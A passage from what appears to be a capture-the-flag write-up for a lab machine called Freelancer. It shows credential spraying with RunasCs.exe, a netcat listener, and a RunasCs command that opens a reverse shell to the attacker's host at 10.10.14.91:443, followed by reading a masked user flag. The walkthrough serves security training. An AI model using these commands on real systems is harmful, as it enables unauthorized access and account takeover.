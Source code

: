 ```bash
.\RunasCs.exe "lkazanof" "IL0v3ErenY3ager" "whoami"
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
C:\Windows\Temp\privesc>.\RunasCs.exe "lorra199" "IL0v3ErenY3ager" "whoami"
.\RunasCs.exe "lorra199" "IL0v3ErenY3ager" "whoami"
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
C:\Windows\Temp\privesc>.\RunasCs.exe "mikasaAckerman" "IL0v3ErenY3ager" "whoami"
.\RunasCs.exe "mikasaAckerman" "IL0v3ErenY3ager" "whoami"

freelancer\mikasaackerman
```

I will take advantage of RunasCs.exe and give me a reverse shell on port 443:

```bash
❯ rlwrap nc -lvnp 443
```

```bash
C:\Windows\Temp\privesc>.\RunasCs.exe "mikasaAckerman" "IL0v3ErenY3ager" cmd.exe -r 10.10.14.91:443
.\RunasCs.exe "mikasaAckerman" "IL0v3ErenY3ager" cmd.exe -r 10.10.14.91:443

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-4aa81$\Default
[+] Async process 'C:\WINDOWS\system32\cmd.exe' with pid 4500 created in background.
```

And I receive the shell as mikasaAckerman:

![](/assets/images/Freelancer/Pasted%20image%2020241005130648.png)

Flag user.txt is available at mikasa's desktop:

```bash
C:\Users\mikasaAckerman\Desktop>type user.txt
type user.txt
bd****************************10
```
# Access as lorra199

Looking at mikasaAckerman's desktop, I can see two interesting files MEMORY.7z and mail.txt:

```cmd
C:\Users\mikasaAckerman\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8954-28AE

 Directory of C:\Users\mikasaAckerman\Desktop

05/28/2024  10:22 AM    <DIR>          .
05/28/2024  10:22 AM    <DIR>          ..
10/28/2023  06:23 PM             1,468 mail.txt
10/04/2023  01:47 PM       292,692,678 MEMORY.7z
10/05/2024  10:47 AM                34 user.txt
               3 File(s)    292,694,180 bytes
               2 Dir(s)   2,603,200,512 bytes free
```